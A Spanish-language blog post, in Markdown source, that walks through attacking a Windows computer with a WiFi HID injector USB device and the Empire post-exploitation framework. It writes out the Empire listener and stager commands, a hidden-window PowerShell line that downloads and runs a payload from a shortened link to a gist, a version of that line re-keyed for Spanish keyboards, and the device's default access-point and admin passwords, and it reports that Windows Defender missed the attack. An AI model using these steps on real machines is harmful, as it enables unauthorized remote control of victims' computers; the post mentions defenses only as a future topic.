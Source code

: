 ```yaml
---
title: "Hacking con WiFi HID Injector y Empire"
author: Adan Alvarez
classes: wide
excerpt: "En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion Empire."
categories:
  - Herramientas
tags:
  - C2
  - Pentest
  - Red Team
---
```

En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion [Empire](https://github.com/EmpireProject/Empire).
{: style="text-align: justify;"}

En primer lugar, ¿qué es un USB WiFi HID Injector? y ¿Dónde lo conseguimos?
{: style="text-align: justify;"}

Un USB WiFi HID Injector es un USB que consta principalmente de un [Atmega32u4](https://www.microchip.com/wwwproducts/en/ATmega32U4) y un módulo [ESP-12-F](https://www.vispo.org/2015/07/19/introduccion-al-modulo-soc-wifi-esp8266-esp-12/) para añadir capacidad Wifi. Este USB al conectarse a un equipo es reconocido como un teclado y un raton. Por lo tanto, permite a un atacante conectarse vía WiFi a este y pulsar teclas o mover el ratón.
{: style="text-align: justify;"}

Este proyecto fue presentado en el [Black Hat arsenal 2017](https://www.blackhat.com/us-17/arsenal-overview.html) y está documentado en el [GitHub](https://github.com/whid-injector/WHID) del diseñador, donde podemos encontrar dónde adquirirlo.
{: style="text-align: justify;"}

En nuestro caso lo compramos en [Aliexpress](https://es.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html).
{: style="text-align: justify;"}

[![USB Wifi HID injector](https://donttouchmynet.github.io/assets/images/old/IMG_20180113_191809-300x225.jpg)](https://donttouchmynet.github.io/assets/images/old/IMG_20180113_191809.jpg) [![USB Wifi HID injector](https://donttouchmynet.github.io/assets/images/old/IMG_20180114_141443-300x225.jpg)](https://donttouchmynet.github.io/assets/images/old/IMG_20180114_141443.jpg)

Tal y como se indica en el GitHub estos USB ya llevan precargado ESPloitV2 por lo que podemos conectarlo y comenzar a jugar.
{: style="text-align: justify;"}

Configuración de Empire
-----------------------

Antes de poder seguir necesitaremos crear nuestro payload con Empire. En el siguiente [enlace](http://www.powershellempire.com/?page_id=110) encontraréis una pequeña guía rápida de Empire.
{: style="text-align: justify;"}

Primero de todo creamos nuestro listener:
{: style="text-align: justify;"}
´´´
uselistener http
´´´
[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire1-300x150.png)](https://donttouchmynet.github.io/assets/images/old/Empire1.png)

Configuramos el puerto y la IP  en la que escuchará Empire:
{: style="text-align: justify;"}
´´´
set Host http://198.51.100.2:8081
set Port 8081
´´´
[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire2-300x166.png)](https://donttouchmynet.github.io/assets/images/old/Empire2.png)

Después de esto generamos nuestro payload:
{: style="text-align: justify;"}
´´´
back
usestager windows/ducky
set Listener http
execute
´´´
[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire4-300x143.png)](https://donttouchmynet.github.io/assets/images/old/Empire4.png)

Del payload obtenido la última línea será la que utilizaremos en nuestro ataque.
{: style="text-align: justify;"}

Preparando el payload
---------------------

Podríamos injectar el payload obtenido directamente a través del USB, pero tras varias pruebas realizadas el funcionamiento no es el correcto cuando la cadena de texto es tan larga.
{: style="text-align: justify;"}

Por lo tanto, utilizaremos gist.github.com para guardar allí nuestro payload  y en el ordenador de la víctima llamaremos a Powershell para que lo descargue mediante un acortador de Google
{: style="text-align: justify;"}
´´´
powershell -w 1 -nop -noni -c «IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')»
´´´
Por lo tanto, primero generamos nuestro gist.github.com con el payload:
{: style="text-align: justify;"}

[![Gist](https://donttouchmynet.github.io/assets/images/old/gist-300x83.png)](https://donttouchmynet.github.io/assets/images/old/gist.png)

y generamos un link [acortado de google](https://goo.gl/) a nuestro gist en modo raw:

[![google](https://donttouchmynet.github.io/assets/images/old/2018-02-17_10-35-27-300x117.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_10-35-27.png)

Con esto podríamos ejecutar la línea mencionada anteriormente en una consola powershell y tendríamos acceso al ordenador de la víctima. El problema que nos encontraremos al escribir la línea mediante el USB es el teclado español. El USB está configurado para pulsar las teclas como si el teclado destino fuera inglés. Por lo tanto, si realizamos un ataque a un equipo con teclado español deberemos cambiar los caracteres especiales. Para nuestra línea los cambios serían los siguientes:
{: style="text-align: justify;"}

Substituimos - por /
Substituimos " por @
Substituimos ( por  *
Substituimos ' por -
Substituimos : por >
Substituimos / por &
Substituimos ) por (

Quedando por lo tanto la siguiente línea:
{: style="text-align: justify;"}
´´´
powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
´´´
Donde XXXX es el link acortado de Google.

Con esto ya podemos ejecutar nuestro ataque.

Cargar el payload con el USB Wifi HID injector
----------------------------------------------

Al conectar el USB a un ordenador, este creará un punto de acceso con SSID «Exploit» al que nos podremos conectar con la contraseña: DotAgency
{: style="text-align: justify;"}

Una vez conectados, en este caso con un móvil, accedemos con un navegador a http://192.168.1.1 y con los datos:

User: admin

Password: hacktheplanet

[![ESPloit](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103631-169x300.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103631.png)

En este menú principal hacemos clic en Input Mode y nos llevará a una pantalla donde podremos gestionar el ratón y el teclado.
{: style="text-align: justify;"}

[![ESPloit](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103716-169x300.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103716.png)

En esta lanzaremos nuestro ataque de forma sencilla.
{: style="text-align: justify;"}

Pulsamos sobre el botón GUI+r

escribiremos:
´´´
PrintLine: powershell
´´´
y haremos clic en Send Text+Enter

Después de esto escribiremos:
´´´
PrintLine: powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
´´´
[![](https://donttouchmynet.github.io/assets/images/old/2018-02-17_18-34-49-300x131.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_18-34-49.png)

y haremos clic de nuevo en Send Text+Enter

Tras esto podemos volver a nuestra máquina con Empire y verificar que tenemos un nuevo agente !

[![Empire](https://donttouchmynet.github.io/assets/images/old/2018-02-17_16-47-33-300x54.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_16-47-33.png)

En nuestro caso realizamos el ataque en una máquina Windows 10 actualizada y con defender activo.  Defender no detectó el ataque en ningún momento.

En próximos post detallaremos más funcionalidades del USB y métodos de defensa.